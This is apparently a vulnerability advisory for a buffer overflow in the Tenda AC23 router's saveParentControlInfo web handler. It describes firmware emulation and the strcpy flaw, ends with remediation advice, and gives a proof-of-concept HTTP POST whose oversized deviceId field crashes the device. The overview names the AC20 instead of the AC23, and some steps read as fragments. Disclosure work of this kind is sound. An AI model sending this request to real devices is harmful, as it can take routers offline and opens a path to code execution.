

## Basic Information

Vulnerability Vendor: Shenzhen Jixiang Tengda Technology Co., Ltd.

Official Website: https://www.tenda.com.cn/

Affected Device Type: Router

Affected Product: AC23

Affected Product Version: <= V16.03.07.52 (Latest Version)

## Vulnerability Overview

A buffer overflow vulnerability has been discovered in the Tenda AC20 router. An attacker can trigger this vulnerability by sending a carefully crafted

HTTP POST message to the request path /goform/saveParentControlInfo, causing a denial of service (DoS) attack or even RCE.

## Vulnerability Details

Download the latest AC23 firmware from the official Tenda website.

You can unzip it here: https://zhiwanyuzhou.com/multiple_analyse/firmware/

Locate the /bin/httpd file and run the command sudo chroot ./ ./qemu-mipsel-static ./bin/httpd to emulate the environment.


After the environment was started, IDA was used to locate the vulnerability in saveParentControlInfo.

It was discovered that the deviceId value was retrieved and then assigned via strcpy, leading to a buffer overflow risk.



The premise needs to be judged by if


This means that v3 and v4 are not equal. Here, we use a and b respectively.

Packet test


It was found that a segmentation error occurred, which indeed caused an overflow


## POC

```shell
POST /goform/saveParentControlInfo HTTP/1.1

Host: 192.168.102.145

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36

Accept: text/plain, */*; q=0.01

X-Requested-With: XMLHttpRequest

Referer: http://192.168.102.145/main.html

Accept-Encoding: gzip, deflate, br

Accept-Language: zh-CN,zh;q=0.9

Connection: keep-alive

Content-Type: application/x-www-form-urlencoded

Content-Length: 786

 

time=a-b&deviceId=aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```


## Vulnerability Impact

An attacker could exploit this vulnerability to cause a buffer overflow or even execute arbitrary commands, escalating privileges.

## Remediation Plan

1. Contact the relevant vendor to obtain a security patch and promptly address the vulnerability.
2. Contact the relevant security vendor to promptly update their security blocking policy.
3. Temporarily perform a security check on the interface parameters.